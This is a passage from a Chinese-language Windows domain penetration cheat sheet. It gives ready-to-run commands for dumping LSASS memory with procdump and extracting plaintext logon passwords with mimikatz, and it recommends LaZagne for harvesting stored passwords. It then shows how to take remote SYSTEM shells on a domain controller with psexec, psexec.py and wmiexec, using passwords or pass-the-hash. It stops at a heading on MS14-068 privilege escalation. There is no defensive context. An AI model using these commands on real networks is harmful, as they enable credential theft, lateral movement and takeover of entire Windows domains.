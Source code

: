 > ```shell
> procdump64.exe -accepteula -ma lsass.exe lsass.dmp
> ```
>
> 会产生lsass.dmp文件，下载后用mimikatz解读即可
>
> ```shell
> mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
> ```

- lazagne

> 抓取当前系统密码或hash，以及浏览器密码。

#### 3. 用工具登录域内主机的system权限账户

注：如果登录的是域控，则可以控制域内所有电脑。

- psexec
> ```shell
> psexec \\[域控ip或者域控主机名] -u Administrator -p [密码] cmd
> # 例如：
> psexec \\10.10.30.30 -u Administrator -p 123456 cmd
> 
> psexec \\AdServer -u Administrator -p 123456 cmd
> psexec administrator@[ip] -hashes [LMHASH]:[NTHASH] cmd
> ```
>
> 其中LM用0补全，NT用抓hash的工具——lazagne或mimikatz获取。
>
> 注意如果是域控的管理员，需要加上域名。

- psexec.py
> ```shell
> python psexec.py '[域控名]/administrator:[密码]@[域名或ip]' cmd
> python psexec.py -hashes 00000000000000000000000000000000:hashhashhashhashhashhashhashhash administrator:@[域名或ip] cmd
> python psexec.py 'adserver/administrator:123456@10.10.30.30' cmd
> ```

- wmiexec，功能差不多，但容易崩
> ```shell
> wmiexec administrator:[密码]@[ip] cmd
> wmiexec administrator@[ip] -hashes [LMHASH]:[NTHASH] cmd
> wmiexec -hashes 00000000000000000000000000000000:hashhashhashhashhashhashhashhash administrator@10.10.30.30 cmd
> ```
>
> 如果没有密码就用hash，密码置空。



## 0x0c ms14-068域内提权

#### 1. 相关工具
